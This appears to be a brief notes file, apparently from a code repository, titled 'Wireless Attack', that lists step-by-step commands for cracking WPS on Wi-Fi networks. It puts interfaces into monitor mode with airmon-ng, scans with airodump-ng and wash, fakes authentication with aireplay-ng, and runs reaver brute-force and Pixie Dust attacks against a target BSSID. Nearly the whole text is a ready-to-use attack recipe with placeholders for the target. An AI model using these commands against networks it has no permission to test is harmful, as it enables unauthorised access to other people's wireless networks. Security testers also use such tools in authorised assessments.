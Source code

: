 
Wireless Attack            
		                        
using the below tools      
 			                    
-----wash(or airodump-ng) 
-----reaver		    

-==[SimpleAttackWay]==-

	sudo airmon-ng check kill

	sudo airmon-ng start <inter_face>

	sudo airodump-ng <inter_face>

	sudo wash -i <inter_face> 

	sudo reaver -i <inter_face> 

	sudo aireplay-ng --fakeauth 30 -a <BSSID> -h <MAC_ID> <inter_face>

	sudo reaver -i <inter_face> -b <BSSID> -c <Channels> -f -a -w -vv --no-associate

		or 

	sudo reaver -i <inter_face> -b <BSSID> -c <Channels> -d 30 -S -N -vv --no-associate

-==[PixiDustAttack]==-

	sudo reaver -i <inter_face> -b <BSSID> -K 
	
	sudo reaver -i <inter_face> -b <BSSID> -p <PIN_KEY>
